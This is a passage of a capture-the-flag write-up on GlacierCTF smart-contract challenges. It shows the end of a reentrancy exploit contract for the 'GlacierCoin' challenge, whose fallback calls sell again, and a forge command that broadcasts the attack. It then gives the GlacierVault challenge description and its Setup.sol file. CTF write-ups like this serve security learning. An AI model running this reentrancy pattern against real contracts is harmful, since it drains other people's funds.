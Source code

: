 ```javascript
    }
    function exploit() public{
        TARGET.buy{value: 10 ether}();
        TARGET.sell(10 ether);
    }
    fallback() external payable { 
        TARGET.sell(10 ether);    
    }
}

```

Run the following command to solve the challenge. 

```bash
forge script script/GlacierCoinAttack.s.sol:AttackScript --rpc-url <RPC-URL> --private-key <REDACTED> --broadcast
```

## GlacierVault [316pts]

```
Description :

"Ascending the glacier under the guidance of your seasoned expedition leader, you encounter a breathtaking sight: a vault intricately carved into the ice, its entrance guarded by a formidable sentinel. This ancient guardian stands watch, an imposing figure resolute in its duty. To gain access to the enigmatic vault and its concealed treasures, you must devise a clever strategy to lull the guardian into a deep, peaceful slumber, a challenge that awaits your resourcefulness and cunning. To get the ticket, run solve-pow.py"

author: J4X

nc chall.glacierctf.com 13377

Attached Files : [GlacierVault.sol, Guardian.sol, Setup.sol]
```

`Setup.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./GlacierVault.sol";
import "./Guardian.sol";

contract Setup {
    Guardian public immutable TARGET; // Contract the player will hack
    constructor() payable {
        // Deploy the victim contract
        GlacierVault vault = new GlacierVault();
        // Deploy the guardian contract
        TARGET = new Guardian(address(vault));
    }
    // Our challenge in the CTF framework will call this function to
    // check whether the player has solved the challenge or not.
    function isSolved() public view returns (bool) {
        return TARGET.asleep();
    }
}
```
